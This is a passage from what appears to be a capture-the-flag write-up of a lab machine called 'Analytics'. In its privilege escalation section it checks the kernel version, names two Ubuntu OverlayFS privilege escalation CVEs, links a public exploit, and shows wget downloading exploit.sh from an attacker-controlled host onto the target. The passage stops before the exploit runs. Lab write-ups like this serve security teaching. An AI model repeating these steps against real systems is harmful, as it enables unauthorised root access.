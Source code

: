 ```

  => / is using 92.9% of 7.78GB

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Oct  3 09:14:35 2023 from 10.10.14.41
metalytics@analytics:~$ id; whoami
uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics)
metalytics
metalytics@analytics:~$ 

```

# PRIVILEGE ESCALATION

```
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

For privilege escalation, we first checked the system information using the `uname -a` command. It revealed that the target system was running `Ubuntu` with kernel version `6.2.0-25-generic`.

A quick online search led us to a [blog post](https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability) that discussed two specific privilege escalation vulnerabilities, namely `CVE-2023-2640` and `CVE-2023-32629`, found in the `OverlayFS` module of `Ubuntu`. These vulnerabilities were unique to `Ubuntu` due to modifications made to the `OverlayFS` module. Exploiting these vulnerabilities allowed attackers to create specialized executables that could provide root-like privileges to anyone who ran them.

We found [this](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh) public exploit on github.

```
metalytics@analytics:~$ wget http://10.10.14.177/exploit.sh
--2023-10-21 16:22:03--  http://10.10.14.177/exploit.sh
Connecting to 10.10.14.177:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 558 [text/x-sh]
Saving to: ‘exploit.sh’

exploit.sh                                      100%[====================================================================================================>]     558  --.-KB/s    in 0.002s  

2023-10-21 16:22:03 (300 KB/s) - ‘exploit.sh’ saved [558/558]
```
